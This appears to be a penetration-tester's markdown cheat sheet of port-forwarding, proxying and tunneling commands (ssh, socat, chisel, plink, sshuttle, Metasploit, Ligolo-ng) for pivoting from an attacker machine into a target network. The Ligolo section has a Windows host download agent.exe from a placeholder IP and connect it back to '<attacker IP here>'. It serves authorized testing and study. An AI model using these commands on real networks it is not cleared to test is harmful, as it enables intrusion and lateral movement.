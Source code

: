 # Port Fowarding and Proxying

## Introduction

## Table of Content

- [Port Fowarding and Proxying](#port-fowarding-and-proxying)
  - [Introduction](#introduction)
  - [Table of Content](#table-of-content)
  - [Port Fowarding](#port-fowarding)
    - [SSH Tunneling/Local Port Forwarding](#ssh-tunnelinglocal-port-forwarding)
    - [SSH Remote Port Forwarding](#ssh-remote-port-forwarding)
    - [Socat - Port Forward](#socat---port-forward)
    - [chisel  - Remote Port Forward](#chisel----remote-port-forward)
    - [Chisel - Local Port Forward](#chisel---local-port-forward)
    - [pklink - Remote Port Forward](#pklink---remote-port-forward)
  - [Proxying - Network Pivoting](#proxying---network-pivoting)
    - [sshuttle (Unix) - proxying](#sshuttle-unix---proxying)
    - [SSH + Proxychains](#ssh--proxychains)
    - [chisel  - Reverse Proxy](#chisel----reverse-proxy)
    - [chisel - Forward Proxy](#chisel---forward-proxy)
    - [metasploit - proxying](#metasploit---proxying)
  - [Tunneling](#tunneling)
    - [Ligolo](#ligolo)

## Port Fowarding

### SSH Tunneling/Local Port Forwarding  

```sh
ssh user@<ip> -p port -L 8001:127.0.0.1:8080 -fN
```

### SSH Remote Port Forwarding

```sh
ssh -R 5555:127.0.0.1:5555 -p2222 <user>@<ip>
```

### Socat - Port Forward

```sh
./socat.exe TCP-LISTEN:8002,fork,reuseaddr TCP:127.0.0.1:8080
```

### chisel  - Remote Port Forward 

```sh
# kali
./chisel server -p <LISTEN_PORT> --reverse &
```
```cmd
# windows
./chisel client <client_port>:<client_port> R:<LOCAL_PORT>:<TARGET_IP>:<TARGET_PORT> &
```

### Chisel - Local Port Forward

```cmd
# host
./chisel server -p <LISTEN_PORT>
```
```sh
# kali
./chisel client <client_port>:<client_port> <LOCAL_PORT>:<TARGET_IP>:<TARGET_PORT>
```

### pklink - Remote Port Forward

```cmd
cmd.exe /c echo y | plink.exe -ssh -l <user> -pw <password> -R 192.168.0.20:1234:127.0.0.1:3306 192.168.0.20
```

## Proxying - Network Pivoting

### sshuttle (Unix) - proxying  

```sh
sshuttle -r user@<ip> --ssh-cmd "ssh -i private_key" 172.16.0.0/24
```

### SSH + Proxychains

edit /etc/proxychains.conf with socks4 127.0.0.1 8080
```sh
ssh -N -D 127.0.0.1:8080 <user>@<ip> -p 2222
```
  
### chisel  - Reverse Proxy

```sh
# kali
./chisel server -p LISTEN_PORT --reverse &
```
Host  
```cmd
./chisel client <TARGET_IP>:<LISTEN_PORT> R:socks &
```

### chisel - Forward Proxy  

Host  
```cmd
./chisel server -p <LISTEN_PORT> --socks5
```
```sh
# kali
./chisel client <TARGET_IP>:<LISTEN_PORT> <PROXY_PORT>:socks
```

### metasploit - proxying 

```sh
route add <ip>/24 1
route print
use auxiliary/server/socks_proxy
run
```

## Tunneling

### Ligolo

[about]( https://github.com/nicocha30/ligolo-ng)
```sh
# kali
sudo ip tuntap add user [your_username] mode tun ligolo
sudo ip link set ligolo up
ligolo-proxy -selfcert -laddr 0.0.0.0:<port>
sudo ip route add <ip-range> dev ligolo
```
```
# windows or host
iwr -uri http://<ip>/agent.exe -Outfile agent.exe
agent.exe -connect <attacker IP here>:<port> -ignore-cert
```
```sh
# kali
session
start
```

 <!--- Last Updated July 8, 2024 --->